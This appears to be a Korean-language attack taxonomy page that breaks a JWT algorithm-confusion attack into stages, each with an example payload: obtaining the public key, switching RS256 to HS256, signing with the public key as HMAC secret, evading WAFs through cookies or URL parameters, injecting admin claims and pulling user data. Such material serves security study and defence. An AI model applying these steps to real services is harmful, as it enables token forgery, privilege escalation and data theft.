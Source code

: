### Reconnaissance

| 공격 이름       | 예시 페이로드                          | 설명                                                                                                                              | 출처 |
|-----------------|----------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------|------|
| 공개키 획득     | `GET /.well-known/jwks.json HTTP/1.1`   | 서버의 JWKS(JSON Web Key Set) 엔드포인트에 접근하여 서명 검증에 사용되는 공개키를 획득한다. 이 키는 이후 HS256 서명을 위조하는 데 사용된다. | [B]  |

### Divergence

| 공격 이름            | 예시 페이로드                                                                                                                                                      | 설명                                                                                                                         | 출처      |
|----------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------|----------|
| 알고리즘 헤더 변경   | ```json<br>// Original Header<br>{"alg":"RS256","typ":"JWT","kid":"..."}<br>// Modified Header<br>{"alg":"HS256","typ":"JWT","kid":"..."}<br>```                     | JWT 헤더의 `alg` 값을 RS256에서 HS256으로 변경한다. 서버가 이 헤더 값을 신뢰하여 검증 로직을 HMAC 방식으로 전환하도록 유도한다. | [1], [B] |

### Mutation

| 공격 이름                      | 예시 페이로드                                                                                                                                                                      | 설명                                                                                                                        | 출처      |
|--------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------|----------|
| 공개키를 이용한 HMAC 서명 생성 | ````text<br>HMAC_SHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), rsa_public_key )<br>````                                                                              | Reconnaissance 단계에서 획득한 RSA 공개키를 HMAC-SHA256의 비밀 키로 사용하여 새로운 서명을 생성한다. 이 서명은 변조된 토큰의 마지막 부분에 추가된다. | [1], [B] |

### Evasion

| 공격 이름          | 예시 페이로드                                                                          | 설명                                                                                                           | 출처 |
|--------------------|-----------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------|------|
| Cookie 전달 우회   | `GET /admin/dashboard HTTP/1.1`<br>`Cookie: authToken=<modified_jwt>`                   | 변조된 JWT를 표준 Authorization 헤더 대신 쿠키에 담아 전송하여, 헤더 기반 보안 탐지 시스템을 우회한다.           | [A]  |
| URL 파라미터 전달  | `GET /resource?token=<modified_jwt>`                                                    | 변조된 JWT를 URL 쿼리 파라미터에 포함시켜 전송한다. 이는 WAF나 API 게이트웨이가 특정 헤더만 검사할 경우 유효한 우회 기법이 될 수 있다. | [A]  |

### Validation

| 공격 이름           | 예시 페이로드                                                                         | 설명                                                                                                                               | 출처 |
|---------------------|----------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------|------|
| 보호된 리소스 접근  | `GET /api/admin/dashboard HTTP/1.1`<br>`Authorization: Bearer <modified_jwt>`         | 변조된 토큰으로 관리자 전용 엔드포인트 등 접근이 제한된 리소스에 요청을 보내고, HTTP 200 OK 응답을 통해 공 성공 여부를 확인한다. | [B]  |

### Exploitation

| 공격 이름              | 예시 페이로드                                                                                     | 설명                                                                                                                                 | 출처 |
|------------------------|--------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------|------|
| 관리자 권한 클레임 삽입 | ```json<br>{"sub":"user123","role":"admin","iat":1672531200}```                                   | 토큰의 Payload에 `role: "admin"`이나 `isAdmin: true`와 같은 권한 클레임을 추가하여 일반 사용자를 관리자로 위장하고 시스템의 모든 기능에 접근한다. | [C]  |

### Exfiltration

| 공격 이름               | 예시 페이로드                                                                                  | 설명                                                                                                                      | 출처 |
|-------------------------|-----------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------|------|
| 권한 상승을 통한 데이터 탈취 | `GET /api/v1/users/all HTTP/1.1`<br>`Authorization: Bearer <modified_jwt>`                  | 획득한 관리자 권한을 이용해 전체 사용자 목록, 개인정보, 시스템 설정 등 민감 데이터를 조회하는 API를 호출하여 유출을 완료한다. | [D]  |

---

## 분류에 해당하는 문서
- [1] [JWT Deep Dive into Algorithm Confusion](https://redfoxsec.com/blog/jwt-deep-dive-into-algorithm-confusion/)
